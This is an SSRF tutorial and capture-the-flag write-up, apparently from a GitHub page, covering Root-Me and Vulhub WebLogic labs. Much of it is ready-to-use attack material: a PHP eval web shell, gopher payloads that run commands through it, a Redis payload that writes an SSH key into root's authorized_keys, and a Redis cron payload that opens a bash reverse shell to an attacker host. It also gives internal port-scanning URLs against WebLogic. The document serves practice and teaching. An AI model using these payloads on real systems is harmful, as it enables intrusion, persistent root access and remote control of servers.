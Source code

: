 # More and more I'm seeing SSRF for CTF's 

### Common attack surface

1. Port scanning can be performed on the external network, the internal network where the server is located, and local to obtain banner information of some services    
2. Attack applications running on the intranet or locally (such as overflow)  
3. Fingerprint identification of intranet WEB applications by accessing default files  
4. Attacks on web applications inside and outside the network, mainly attacks that can be achieved using GET parameters (such as Struts2, sqli, etc.)   
5. Reading local files using the file protocol  

### Extended Attack Surface 
It mainly talks about the attack surface used with the gopher protocol. The gopher protocol can be said to be very powerful.

### Sending post packets via gopher

The gopher protocol can send post packets. How to send it?   
Grab the packet encoding structure. For example, the intranet has an exp.php    
```
<?php 
eval($_POST['a']);
?>
```
Then we set up the environment to access and capture the package locally    
![Capture](https://user-images.githubusercontent.com/25066959/70384218-843b3080-1949-11ea-9862-da111c0d1168.PNG)
Find this request packet and display it in raw data in wireshark and write a script such as the following

```python 
import urllib
from urllib.parse import quote
s='xxxx'
len=len(s)
p=''
for i in range(len)[::2]:
    p+=urllib.parse.quote(chr(int(s[i:i+2],16)))
print(p)
```

and the payload will be something like:    
`gopher://127.0.0.1:80/_POST%20/exp.php%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AUser-Agent%3A%20Mozilla/5.0%20%28Linux%3B%20Android%209.0%3B%20SAMSUNG-SM-T377A%20Build/NMF26X%29%20AppleWebKit/537.36%20%28KHTML%2C%20like%20Gecko%29%20Chrome/72.0.3626.109%20Mobile%20Safari/537.36%0D%0AAccept%3A%20text/html%2Capplication/xhtml%2Bxml%2Capplication/xml%3Bq%3D0.9%2C%2A/%2A%3Bq%3D0.8%0D%0AAccept-Language%3A%20zh-CN%2Czh%3Bq%3D0.8%2Czh-TW%3Bq%3D0.7%2Czh-HK%3Bq%3D0.5%2Cen-US%3Bq%3D0.3%2Cen%3Bq%3D0.2%0D%0AAccept-Encoding%3A%20gzip%2C%20deflate%0D%0AReferer%3A%20http%3A//127.0.0.1/exp.php%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2025%0D%0AConnection%3A%20keep-alive%0D%0AUpgrade-Insecure-Requests%3A%201%0D%0A%0D%0Aa%3Dsystem%2528%2522id%2522%2529%253B`

Test the local curl package    
![Capture](https://user-images.githubusercontent.com/25066959/70384241-fdd31e80-1949-11ea-9d7b-c8ccbd13a98c.PNG)

You can bounce the shell later....

### Root.me 

Visit ctf04.root-me.org and you can see the started virtual environment.
![Capture](https://user-images.githubusercontent.com/25066959/70384432-3c69d880-194c-11ea-8741-3ba932feec69.PNG)
After accessing the address, you can see that the page displays an input box. You need to enter the url parameter to start capturing packets.    
![Capture](https://user-images.githubusercontent.com/25066959/70384450-8488fb00-194c-11ea-8c75-1a163a2deb9d.PNG)
After trying to enter the Baidu address on the page, the page will load the Baidu homepage into this page.    
![Capture](https://user-images.githubusercontent.com/25066959/70384454-98346180-194c-11ea-9551-5cb4ff3fa540.PNG)
Read system files:    
![Capture](https://user-images.githubusercontent.com/25066959/70384455-ab473180-194c-11ea-8df0-4d08c549b7c5.PNG)
Use Burp's Intruder module to detect open service ports. Open will display OK, non-open will display Connection refused.     
![Capture](https://user-images.githubusercontent.com/25066959/70384458-bb5f1100-194c-11ea-8b7f-bbfc22e09c28.PNG)
The probe shows that the redis service on port 6379 is opened on the intranet, and an attempt is made to use SSRF to perform unauthorized vulnerabilities on redis. Here is a simple science popularization of the impact of the redis vulnerability.     

Therefore, this vulnerability can use SSRF to bypass local restrictions without password configuration, thus attacking internal applications on the external network.    

What we do?    
1) Use redis to write ssh keys....    

Here, a pair of public and private keys is generated using ssh, and the default files generated are id_rsa.pub and id_rsa. Upload id_rsa.pub to the server. We use redis to set the directory to the ssh directory:    
There are two protocols available for writing keys online, one is dict and one is gopher. The test failed to write using the dict protocol, and the connection could not be made after writing. Here, a gopher was used to write the key.

The payload used is:    
`gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$401%0d%0a%0a%0a%0assh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/Xn7uoTwU+RX1gYTBrmZlNwU2KUBICuxflTtFwfbZM3wAy/FmZmtpCf2UvZFb/MfC1i......2pyARF0YjMmjMevpQwjeN3DD3cw/bO4XMJC7KnUGil4ptcxmgTsz0UsdXAd9J2UdwPfmoM9%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$11%0d%0a/root/.ssh/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$15%0d%0aauthorized_keys%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a`

The payload is decoded as:
```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$401

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/Xn7uoTwU RX1gYTBrmZlNwU2KUBICuxflTtFwfbZM3wAy/FmZmtpCf2UvZFb/MfC1i......2pyARF0YjMmjMevpQwjeN3DD3cw/bO4XMJC7KnUGil4ptcxmgTsz0UsdXAd9J2UdwPfmoM9


*4
$6
config
$3
set
$3
dir
$11
/root/.ssh/
*4
$6
config
$3
set
$10
dbfilename
$15
authorized_keys
*1
$4
save
*1
$4
quit
```
The payload is modified from the rebound shell of joychou, mainly replacing the location and file content of the written file. Then modify the length of the file.    
Then try to log in. After entering the password for creating the key, the login is successful.     
![Capture](https://user-images.githubusercontent.com/25066959/70384476-f8c39e80-194c-11ea-8875-9b4d6399bc7b.PNG)

2) Use redis to write timed tasks to bounce the shell    
`gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$61%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/x.x.x.x/2233 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a`
The decoded content is:    
```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$61


*/1 * * * * bash -i >& /dev/tcp/x.x.x.x/2233 0>&1


*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
*1
$4
quit
```
$ 61 is my vps address, which is `%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0athe` string length. Wait for a moment after execution to receive a bounce shell. At the same time, you need to add several carriage returns before and after the command to be written.     
![Capture](https://user-images.githubusercontent.com/25066959/70384497-4b04bf80-194d-11ea-9dc7-1f5b44436d05.PNG)
According to the previous tips, open the / passwd file to find the flag.    
![Capture](https://user-images.githubusercontent.com/25066959/70384504-59eb7200-194d-11ea-9b63-ee34d6936768.PNG)
Enter this string of characters on the website page to end this SSRF journey.    

### Vulnhub
go to https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf    
After downloading vulhub, enter the corresponding installation directory and execute `docker-compose up -dit`. A docker image will be created automatically.    

After the build is complete, visit the following address:    
`/uddiexplorer/SearchPublicRegistries.jsp`
![Capture](https://user-images.githubusercontent.com/25066959/70384544-ed24a780-194d-11ea-8288-c4f1708a6fcc.PNG)
Return when accessing the following address, which means the port is not open:    
`/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:80`
![Capture](https://user-images.githubusercontent.com/25066959/70384549-134a4780-194e-11ea-9c2a-6fa2de0ac6b0.PNG)
`/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001`
The response can see a return of 404, which proves that the port is open:    
![Capture](https://user-images.githubusercontent.com/25066959/70384558-2fe67f80-194e-11ea-86ef-67139c68a095.PNG)
Then you can view the open port services based on the traversal, and decide whether to perform an internal network attack based on the open services. In practice, most of the SSRFs used are detection types, because they can be used with the same situation, and they can also be viewed or rebounded. The probability is worth discussing.    

